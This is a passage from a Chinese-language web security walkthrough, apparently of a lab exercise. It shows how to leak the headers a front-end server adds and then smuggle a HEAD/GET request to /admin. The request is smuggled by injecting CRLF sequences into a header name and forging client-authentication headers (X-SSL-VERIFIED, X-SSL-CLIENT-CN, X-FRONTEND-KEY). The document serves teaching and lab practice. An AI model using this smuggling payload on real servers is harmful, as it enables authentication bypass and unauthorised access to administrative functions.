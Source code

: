 [![](assets/1705287960-76ffba4d44d3c5f8e4a6e3f06f6928a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104952-1800ff70-b02c-1.png)  
在请求的 Body 中将任意字符附加到原始搜索参数，直到请求长度超过走私的 Content-Length 头，发送请求就可以看到响应中出现了前端服务器附加到我们请求的标头信息

```bash
Content-Length: 840
X-SSL-VERIFIED: 0
X-SSL-CLIENT-CN: null
X-FRONTEND-KEY: 2244638774928226
```

[![](assets/1705287960-eb67bdb4b735f702edad26c9961b95f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105012-23d74c00-b02c-1.png)  
随后将请求方法改为 HEAD 并更改头部信息，在其中插入请求路径这样它就可以走私对 admin 面板的请求，包括三个客户端身份验证头，确保按如下方式更新它们的值

```bash
#Name
foo: bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
X-SSL-VERIFIED: 1\r\n
X-SSL-CLIENT-CN: administrator\r\n
X-FRONTEND-KEY: 2244638774928226\r\n
\r\n

#Value
xyz
```
